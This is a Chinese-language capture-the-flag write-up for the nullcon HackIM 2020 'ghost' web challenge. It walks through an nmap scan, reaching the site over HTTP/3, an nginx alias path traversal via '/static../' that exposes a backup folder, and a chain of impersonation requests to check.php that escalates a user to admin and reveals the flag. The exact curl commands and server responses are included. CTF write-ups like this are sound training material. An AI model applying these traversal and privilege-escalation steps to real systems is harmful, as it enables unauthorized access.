 # nullcon HackIM - 2020

## Web / 473 - ghost

>Ever had a scary feeling when you are alone that there is something in the room, but you cant see it with your eyes alone?
>
>Don't be scared to probe at - >https://web1.ctf.nullcon.net:8443/
>
>Note: Challenge Is Not Down
>

### solution
by [@FI](https://github.com/92b2f2)

打開網址發現 Connection refused, 雖然看起來很像壞掉不過題目有提示說沒有壞掉，加上題目有提到可以probe，隊友就用nmap掃了一下

```
# nmap -sU web1.ctf.nullcon.net -p 8443
Starting Nmap 7.70 ( https://nmap.org ) at 2020-02-08 05:22 UTC
Nmap scan report for web1.ctf.nullcon.net (139.59.34.79)
Host is up (0.041s latency).
PORT     STATE         SERVICE
8443/udp open|filtered pcsync-https
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

# nmap -sT web1.ctf.nullcon.net -p 8443
Starting Nmap 7.70 ( https://nmap.org ) at 2020-02-08 05:23 UTC
Nmap scan report for web1.ctf.nullcon.net (139.59.34.79)
Host is up (0.043s latency).
PORT     STATE  SERVICE
8443/tcp closed https-alt
```
發現開了UDP port，而且接下來的提示又是一張數到3的gif，所以我們就懷疑他是用HTTP/3

花了一些時間找可以連上HTTP/3的工具，一開始想說在docker裡[自己build一個支援HTTP/3的curl](https://github.com/curl/curl/blob/master/docs/HTTP3.md)，不過兩種版本都遇到障礙build不起來

索性後來直接找有沒有別人用好的docker，結果有不只一個，隨便挑了一個來用

```
docker run --rm -it inductor/curl-quic-ngtcp2
```

馬上來連連看

```
# curl --http3 https://web1.ctf.nullcon.net:8443/ 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>How are you here?</title>
 
</head>
<body>


<center><h1>Shit! </h1>
<h3>How on earth did you reach here?</h3>
<h3>We added another layer of security to so we dont get hacked. Can you breach that also?</h3>
<img src="/static/giphy.gif"></img>
</center>

<!-- No need to bruteforce# -->

</body>
</html>
```

果然成功連上了

接下來看到他有一張圖片，所以先去試試看`/static`有沒有directory listing

```
<html>
<head><title>Index of /static/</title></head>
<body>
<h1>Index of /static/</h1><hr><pre><a href="../">../</a>
<a href="giphy.gif">giphy.gif</a>                                          05-Feb-2020 19:18             5801332
</pre><hr></body>
</html>
```
發現有directory listing，而且隊友很快就發現有`/static../`，一個因為設定錯誤導致的 NGINX alias traversal 

```
# curl --http3 https://web1.ctf.nullcon.net:8443/static../
<html>
<head><title>Index of /static../</title></head>
<body>
<h1>Index of /static../</h1><hr><pre><a href="../">../</a>
<a href="backup/">backup/</a>                                            05-Feb-2020 19:18                   -
<a href="html/">html/</a>                                              05-Feb-2020 19:18                   -
<a href="static/">static/</a>                                            05-Feb-2020 19:18                   -
</pre><hr></body>
</html>
```
發現有一個backup資料夾
```
# curl --http3 https://web1.ctf.nullcon.net:8443/static../backup/
<html>
<head><title>Index of /static../backup/</title></head>
<body>
<h1>Index of /static../backup/</h1><hr><pre><a href="../">../</a>
<a href="links.txt">links.txt</a>                                          05-Feb-2020 19:18                 277
<a href="nginx.conf">nginx.conf</a>                                         05-Feb-2020 19:18                1242
</pre><hr></body>
</html>
```
裡面有一個txt
```
# curl --http3 https://web1.ctf.nullcon.net:8443/static../backup/links.txt

To signup
http://localhost/check.php?signup=true&name=asd
To Impersonate a person
http://localhost/check.php?impersonator=asd&impersonatee=check
To umimpersonate a person
http://localhost/check.php?unimpersonate=asd-admin
To get status
http://localhost/check.php?status=asd
```
這個txt告訴我們有`check.php`的存在 以及他的參數用法

馬上先來試試看signup

```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?signup=true&name=87" -H "Cookie: PHPSESSID=87"
<center><h1>Welcome to password less authentication system</h1></center>
Please become admin, username: 87-admin
```
他叫我們要成為admin

看看他的status

```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?status=87" -H "Cookie: PHPSESSID=87"
<center><h1>Welcome to password less authentication system</h1></center>
name: 87</br>
impersonating: </br>
role: user</br>
admin name: 87-admin</br>
admin role: admin</br>
Please become admin, username: 87-admin
```
再來他的Impersonate的功能 使用後可以獲得另一個人的身份

來試試看可不可以直接成為admin

```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?impersonator=87&impersonatee=87-admin" -H "Cookie: PHPSESSID=87"
<center><h1>Welcome to password less authentication system</h1></center>
cannot impersonate admin role
```
果然不行 無法 impersonate role 是 admin 的帳號

試了一下後發現可以讓 admin impersonate 一般 user 使 admin 的 role 變成一般 user
```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?impersonator=87-admin&impersonatee=87" -H "Cookie: PHPSESSID=87"
<center><h1>Welcome to password less authentication system</h1></center>
You are not admin
```
```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?status=87" -H "Cookie: PHPSESSID=87"
<center><h1>Welcome to password less authentication system</h1></center>
name: 87</br>
impersonating: 87</br>
role: user</br>
admin name: 87-admin</br>
admin role: user</br>
You are not admin
```
接下來就可以讓一般 user impersonate admin 的帳號
```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?impersonator=87&impersonatee=87-admin" -H "Cookie: PHPSESSID=87"  
<center><h1>Welcome to password less authentication system</h1></center>
You admin role is not admin
```
然後再將 admin 的帳號 unimpersonate 使其恢復 admin 的 role
```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?unimpersonate=87-admin" -H "Cookie: PHPSESSID=87"
```
查看 status

使用者成功 impersonate admin 帳號並獲得 flag
```
# curl --http3 "https://web1.ctf.nullcon.net:8443/check.php?status=87" -H "Cookie: PHPSESSID=87"
<center><h1>Welcome to password less authentication system</h1></center>
name: 87</br>
impersonating: 87-admin</br>
role: user</br>
admin name: 87-admin</br>
admin role: admin</br>
hackim20{We_Never_Thought_it_Was_That_Vulnerable}
```

`hackim20{We_Never_Thought_it_Was_That_Vulnerable}`
